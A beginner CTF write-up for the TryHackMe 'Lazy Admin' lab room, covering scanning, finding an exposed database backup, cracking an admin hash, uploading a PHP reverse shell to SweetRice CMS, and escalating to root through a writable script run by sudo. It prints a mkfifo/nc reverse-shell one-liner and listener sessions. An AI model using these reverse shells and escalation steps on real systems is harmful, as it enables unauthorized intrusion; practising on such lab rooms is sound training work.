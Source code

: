 ```yaml
---
title : 'TryHackMe: Lazy Admin'
author : Seif-Allah
description : Beginner level writeUp for the "Lazy Admin" room.
layout : post
category : CTF-WriteUp
image : /assets/images/writeups/thm/lazy_admin/lazy.png
toc : true
---
```

Room Link : [Lazy Admin](https://tryhackme.com/room/lazyadmin)
### Introduction
'Lazy Admin' is an easy room made by [MrSeth6797](https://tryhackme.com/p/MrSeth6797), great for practice challenges. 
Let's get started! 

### Enumeration
Starting Nmap with the -A flag, here's the output : 
- - -
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
- - - 
Examining the source code of the running web service looking for some creds, found nothing. So I fire up gobuster using the *directory-list-2.3-medium.txt* wordlist and found a subdirectory called */content* : 
![/content](/assets/images/writeups/thm/lazy_admin/user_flag.png)
Found out that "Basic-CMS Sweetrice" is running here, firing up gobuster again and adding */content* to the URI and here's the result: 
![/gobustercontent](/assets/images/writeups/thm/lazy_admin/gobuster_content.png)
Did some research about this CMS and found that the 1.5.1 version suffers from a code execution vulnerability via the use of a cross site request forgery flaw.
Check this link : [SweetRice-1.5.1-Code-Execution](https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html)
So basically, this means that I can upload a php reverse shell and execute it but first we need some credentials to login and then upload our file, so we need more enumeration.
I examine the other subdirectories and there's a specific file that got my attention : */content/inc/mysql\_backup/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql* ! 
Examining it carefully, I found a username and a password hash (*line 79*).
The password hash type is MD5, I used hydra to crack it using the *rockyou.txt* wordlist and then logged in the *Sweetrice* CMS, easy hein ? 

### User Flag
To get the reverse shell, I simply started my listener (*nc -nlvp 1234*) and then copied the */usr/share/webshells/php/php-reverse-shell.php* file inside the ads section, save it and run it as mentionad in the script above. and boom! got the reverse shell ! 
- - - 
```bash
listening on [any] 1234 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 56240
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:01:47 up 5 min,  0 users,  load average: 1.37, 2.14, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
- - -
This time, I was lucky by opening the *user.txt* file without any privelage escalation, and yeah it works ! 
- - - 
```bash
$ cd /home
$ ls
itguy
$ cd itguy
$ cat user.txt
THM{#####################}
```
- - -


### Root Flag
Now we need to find a way to get the root flag !
First of all, I ran *sudo -l* command : 
- - -

```bash
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
```

- - -
Well, the user www-data can run the following command ? let's open the backup.pl file ! 
- - -
```bash
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- - -
hum ! can we edit the copy.sh file so it gets executed as root ? 
- - -
```bash
$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
- - -
and yeah we can edit it, SUPER ! So the first idea tha came in my mind is to get an another reverse shell using this command : 
- - - 
```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<local-ip\> 5554 \>/tmp/f' \>/etc/copy.sh
```
- - - 
After setting up the listener and ran the command, I got the root shell ! now it's time the get root flag !! :) finally ! 
- - - 
```bash
root@kali:~# nc -nlvp 5554
listening on [any] 5554 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 51512
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
```
- - - 
Congrats, now you pissed off the lazy admin ! 
